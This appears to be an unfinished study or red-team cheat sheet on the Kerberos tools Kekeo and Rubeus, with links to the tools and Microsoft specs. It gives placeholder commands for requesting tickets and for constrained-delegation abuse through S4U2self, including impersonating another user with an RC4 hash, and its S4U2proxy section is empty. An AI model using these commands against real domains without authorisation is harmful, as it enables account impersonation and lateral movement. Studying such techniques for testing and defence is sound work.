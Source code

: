 # kekeo/rubeus

### Resources

1. **Rubeus**

{% embed url="https://github.com/GhostPack/Rubeus?tab=readme-ov-file#s4u" %}

2. **Kekeo**

{% embed url="https://github.com/gentilkiwi/kekeo" %}

3. **S4U2self and S4U2proxy**

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13" %}

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/bde93b0e-f3c9-4ddf-9f44-e1453be7af5a" %}



For each of the following sections, I aim to provide the equivalent commands in **Kekeo** and **Rubeus** (some of the sections may only have examples in one tool).

### 1. Request for Ticket Granting Ticket (TGT)

```powershell
kekeo # tgt::ask /user:<user> /domain:<domain> /password:<password>
C:\> rubeus.exe /user:<user> /password:<password>
```

* For rubeus, if `/password` is used instead of a hash, `/enctype:X` will default to RC4 for the exchange, with `des|aes128|aes256` as options

### 2. Request for Ticket Granting Service (TGS)

```powershell
C:\> rubeus.exe asktgs /ticket:<ticket> /service:<servicename>
```

### 3. Constrained delegation abuse: Service for User (S4U)

```
kekeo # tgs::s4u /tgt:<path_to_TGT> /user:<username> /service:<servicename>
```

{% embed url="https://github.com/GhostPack/Rubeus?tab=readme-ov-file#s4u" %}

From the Rubeus S4U documentation page link above, we can find a few examples:

#### a. S4U2self

{% code overflow="wrap" %}
```powershell
C:\> rubeus.exe s4u /user:<username> /rc4:<rc4_hash> /impersonateuser:<user_to_impersonate>
```
{% endcode %}

* `/rc4`: rc4 hash of the user associated with `/user`
  * The TGT  for an account with a _**msds-allowedtodelegateto**_ permission can be used instead (`/ticket:X`)
* `/impersonateuser` : compulsory parameter to specify the user we plan to obtain a service ticket on behalf for

From this command, we will obtain the following:

1. TGT for the user specified in `/user`&#x20;
2. TGS for the user specified in `/impersonateuser`&#x20;

* Using the S4U2self extension, where the service account can use the TGS obtained to authenticate to the service its running on behalf of the user specified in `/impersonateuser`&#x20;

#### b. S4U2proxy

```powershell
```



{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/3bff5864-8135-400e-bdd9-33b552051d94" %}





